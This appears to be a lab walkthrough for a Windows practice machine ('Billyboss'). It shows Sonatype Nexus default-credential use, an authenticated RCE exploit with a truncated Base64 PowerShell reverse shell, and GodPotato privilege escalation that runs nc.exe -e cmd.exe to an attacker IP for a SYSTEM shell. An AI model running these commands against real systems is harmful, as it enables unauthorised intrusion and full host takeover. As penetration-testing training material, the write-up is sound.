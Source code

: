 # 🏴 Billyboss (Windows)

## 🧠 Initial Foothold

- Searched for leaked or default credentials using:

  ```
  grep -r "Sonatype Nexus" /usr/share/wordlists/seclists/Passwords
  ```

- Found valid credentials for the Sonatype Nexus interface.

- Logged in and used the following exploit:  
  **Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticated)**  
  [Exploit-DB 49385](https://www.exploit-db.com/exploits/49385)

- Adjusted the payload for Windows by using a Base64-encoded PowerShell reverse shell:

  ```powershell
  cmd.exe /c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUw...
  ```

- Successfully received a reverse shell on the Windows target.

---

## 🚀 Privilege Escalation

- Checked privileges and noticed `SeImpersonatePrivilege` was enabled.

- Used **GodPotato-NET4** for privilege escalation.

- Transferred `nc.exe` from the Kali machine to the target.

- Executed the following command:

  ```powershell
  .\GodPotato-NET4.exe -cmd "C:\Users\nathan\Desktop\nc.exe -e cmd.exe 192.168.49.140 4444"
  ```

- Successfully gained a reverse shell as **SYSTEM**.

---

🧼 **Post-Exploitation Note:**  
Clean up `nc.exe`, the GodPotato binary, and any reverse shell artifacts.

> ⚠️ This walkthrough is for educational purposes only.

